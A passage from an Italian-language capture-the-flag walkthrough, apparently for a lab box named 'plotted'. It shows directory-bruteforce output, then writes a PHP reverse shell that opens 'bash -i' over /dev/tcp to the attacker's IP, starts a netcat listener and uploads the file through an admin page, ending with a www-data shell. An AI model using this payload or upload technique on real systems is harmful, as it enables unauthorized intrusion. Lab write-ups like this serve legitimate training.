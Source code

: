```
uploads                 [Status: 301, Size: 330, Words: 20, Lines: 10, Duration: 52ms]
pages                   [Status: 301, Size: 328, Words: 20, Lines: 10, Duration: 51ms]
admin                   [Status: 301, Size: 328, Words: 20, Lines: 10, Duration: 52ms]
assets                  [Status: 301, Size: 329, Words: 20, Lines: 10, Duration: 52ms]
plugins                 [Status: 301, Size: 330, Words: 20, Lines: 10, Duration: 52ms]
database                [Status: 301, Size: 331, Words: 20, Lines: 10, Duration: 52ms]
#                       [Status: 200, Size: 14506, Words: 2399, Lines: 281, Duration: 3176ms]
                        [Status: 200, Size: 14506, Words: 2399, Lines: 281, Duration: 4172ms]
# license, visit http://creativecommons.org/licenses/by-sa/3.0/  [Status: 200, Size: 14506, Words: 2399, Lines: 281, Duration: 4173ms]
# Copyright 2007 James Fisher [Status: 200, Size: 14506, Words: 2399, Lines: 281, Duration: 4173ms]
# directory-list-2.3-medium.txt [Status: 200, Size: 14506, Words: 2399, Lines: 281, Duration: 4175ms]
#                       [Status: 200, Size: 14506, Words: 2399, Lines: 281, Duration: 4176ms]
# Attribution-Share Alike 3.0 License. To view a copy of this  [Status: 200, Size: 14506, Words: 2399, Lines: 281, Duration: 4178ms]
# This work is licensed under the Creative Commons  [Status: 200, Size: 14506, Words: 2399, Lines: 281, Duration: 4178ms]
classes                 [Status: 301, Size: 330, Words: 20, Lines: 10, Duration: 52ms]
dist                    [Status: 301, Size: 327, Words: 20, Lines: 10, Duration: 55ms]
inc                     [Status: 301, Size: 326, Words: 20, Lines: 10, Duration: 53ms]
build                   [Status: 301, Size: 328, Words: 20, Lines: 10, Duration: 51ms]
libs                    [Status: 301, Size: 327, Words: 20, Lines: 10, Duration: 52ms]
                        [Status: 200, Size: 14506, Words: 2399, Lines: 281, Duration: 60ms]
:: Progress: [220560/220560] :: Job [1/1] :: 769 req/sec :: Duration: [0:04:57] :: Errors: 0 ::

```
abbiamo trovato di interessante la directory /management/uploads.

creiamo un php reverse shell
```
nano revshell.php
```
```
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.14.99.134/1234 0>&1'");
```

ci mettiamo in ascolto
```
nc -lvnp 1234
```
e carichiamo in  Potal Cover un semplice file di php-reverse-shell 
http://10.10.163.22:445/management/admin/?page=system_info

ed otteniamo la revshell!

```
└─# nc -lvnp 1234         
listening on [any] 1234 ...
connect to [10.14.99.134] from (UNKNOWN) [10.10.163.22] 56536
bash: cannot set terminal process group (1635): Inappropriate ioctl for device
bash: no job control in this shell
www-data@plotted:/var/www/html/445/management/uploads$ 
```
